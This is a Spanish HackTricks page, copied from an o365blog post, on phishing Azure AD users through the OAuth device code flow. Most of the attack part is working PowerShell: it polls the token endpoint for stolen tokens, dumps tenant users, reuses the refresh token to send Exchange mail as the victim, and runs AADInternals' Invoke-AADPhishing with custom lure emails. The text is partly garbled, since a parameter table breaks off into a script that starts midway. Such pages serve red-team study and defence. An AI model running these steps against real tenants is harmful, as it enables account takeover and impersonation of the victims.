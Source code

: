 # Az - Phishing de autenticación de código de dispositivo

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

**Este post fue copiado de** [**https://o365blog.com/post/phishing/**](https://o365blog.com/post/phishing/)

### ¿Qué es la autenticación de código de dispositivo? <a href="#what-is-device-code-authentication" id="what-is-device-code-authentication"></a>

Según la [documentación](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-device-code) de Microsoft, la autenticación de código de dispositivo:

> permite a los usuarios iniciar sesión en dispositivos con restricciones de entrada, como un televisor inteligente, un dispositivo IoT o una impresora. Para habilitar este flujo, el dispositivo hace que el usuario visite una página web en su navegador en otro dispositivo para iniciar sesión. Una vez que el usuario inicia sesión, el dispositivo puede obtener tokens de acceso y tokens de actualización según sea necesario.

El proceso es el siguiente:

1. Un usuario inicia una aplicación que admite el flujo de código de dispositivo en un dispositivo.
2. La aplicación se conecta al punto final /devicecode de Azure AD y envía **client\_id** y **resource**.
3. Azure AD envía de vuelta **device\_code**, **user\_code** y **verification\_url**.
4. El dispositivo muestra la **verification\_url** (hxxps://microsoft.com/devicelogin) y el **user\_code** al usuario.
5. El usuario abre un navegador y navega hasta **verification\_url**, proporciona el **user\_code** cuando se le solicita e inicia sesión.
6. El dispositivo sondea a Azure AD hasta que después de un inicio de sesión exitoso obtiene **access\_token** y **refresh\_token**.

![Flujo de código de dispositivo](https://o365blog.com/images/posts/phishing\_5.png)

### Phishing con autenticación de código de dispositivo <a href="#phishing-with-device-code-authentication" id="phishing-with-device-code-authentication"></a>

La idea básica para utilizar la autenticación de código de dispositivo para phishing es la siguiente.

1. Un atacante se conecta al punto final /devicecode y envía **client\_id** y **resource**.
2. Después de recibir **verification\_uri** y **user\_code**, crea un correo electrónico que contenga un enlace a **verification\_uri** y **user\_code**, y lo envía a la víctima.
3. La víctima hace clic en el enlace, proporciona el código y completa el inicio de sesión.
4. El atacante recibe **access\_token** y **refresh\_token** y ahora puede imitar a la víctima.

#### 1. Conexión al punto final /devicecode <a href="#1-connecting-to-devicecode-endpoint" id="1-connecting-to-devicecode-endpoint"></a>

El primer paso es hacer un POST http al punto final de código de dispositivo de Azure AD:

```
 https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0
```

Estoy usando los siguientes parámetros. Elegí usar el client\_id de "Microsoft Office" porque parece el nombre de la aplicación más legítimo, y también se puede usar para acceder a otros recursos. El recurso elegido da acceso a la API de gráficos de AAD que es utilizada por el módulo PowerShell de MSOnline.

| Parámetro  | Valor                                                   |
| ---------- | ------------------------------------------------------- |
| client\_id | d3590ed6-52b3-4102-aeff-aad2292ab01c                    |
|
# Crear cuerpo para solicitudes de autenticación

$body=@{
	"client_id" =  "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
	"code" =       $authResponse.device_code
	"resource" =   "https://graph.windows.net"
}

# Bucle mientras la autorización está pendiente o hasta que se exceda el tiempo de espera

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "Se ha producido un tiempo de espera"
		return
	}
				
	# Intentar obtener la respuesta. Devolverá 40x mientras esté pendiente, por lo que necesitamos intentar y capturar

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# Este es el flujo normal, siempre devuelve 40x a menos que tenga éxito

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# No está pendiente, por lo que este es un error real

			Write-Error $details.error_description
			return
		}
	}

	# Si obtenemos una respuesta, todo está bien!

	if($response)
	{
		break # Salir del bucle

	}
}
```

Ahora podemos usar el token de acceso para suplantar al usuario:

```powershell
# Volcar los usuarios del inquilino en csv

Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

También podemos obtener tokens de acceso para otros servicios utilizando el token de actualización siempre que el client\_id siga siendo el mismo.

El siguiente script obtiene un token de acceso para Exchange Online.

```powershell
# Crear cuerpo para obtener token de acceso para Exchange Online

$body=@{
	"client_id" =     "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" =    "refresh_token"
	"scope" =         "openid"
	"resource" =      "https://outlook.office365.com"
	"refresh_token" = $response.refresh_token
}

$EXOresponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body $body -ErrorAction SilentlyContinue

# Enviar correo electrónico como la víctima

Send-AADIntOutlookMessage -AccessToken $EXOresponse.access_token -Recipient "otra.victima@objetivo.org" -Subject "Pago vencido" -Message "Paga esto <h2>lo antes posible!</h2>"
```

## Uso de AADInternals para phishing <a href="#using-aadinternals-for-phishing" id="using-aadinternals-for-phishing"></a>

AADInternals (v0.4.4 o posterior) tiene una función [Invoke-AADIntPhishing](https://o365blog.com/aadinternals/#invoke-aadintphishing) que automatiza el proceso de phishing.

El mensaje de phishing se puede personalizar, el mensaje predeterminado es el siguiente:

```
'<div>¡Hola!<br/>Este es un mensaje enviado por alguien que está utilizando la función de phishing de <a href="https://o365blog.com/aadinternals">AADInternals</a>. <br/><br/>Aquí hay un <a href="{1}">enlace</a> al que <b>no debes hacer clic</b>.<br/><br/>Si aún decides hacerlo, proporciona el siguiente código cuando se solicite: <b>{0}</b>.</div>'
```

Mensaje predeterminado en el correo electrónico:\
![Correo electrónico de phishing](https://o365blog.com/images/posts/phishing\_11.png)

Mensaje predeterminado en Teams:\
![Mensaje de phishing](https://o365blog.com/images/posts/phishing\_12.png)

### Correo electrónico <a href="#email" id="email"></a>

El siguiente ejemplo envía un correo electrónico de phishing utilizando un mensaje personalizado. Los tokens se guardan en la caché.

```powershell
# Crear un mensaje personalizado

$message = '<html>¡Hola!<br/>Aquí está el enlace al <a href="{1}">documento</a>. Utiliza el siguiente código para acceder: <b>{0}</b>.</html>'

# Enviar un correo electrónico de phishing a los destinatarios utilizando un mensaje personalizado y guardar los tokens en caché

Invoke-AADPhishing -Recipients "victima@empresa.com","victima2@empresa.com" -Subject "Johnny compartió un documento contigo" -Sender "Johnny Carson <jc@algundonde.com>" -SMTPServer smtp.miservidor.local -Message $message -SaveToCache 
```

```
Código: CKDZ2BURF
Correo electrónico enviado a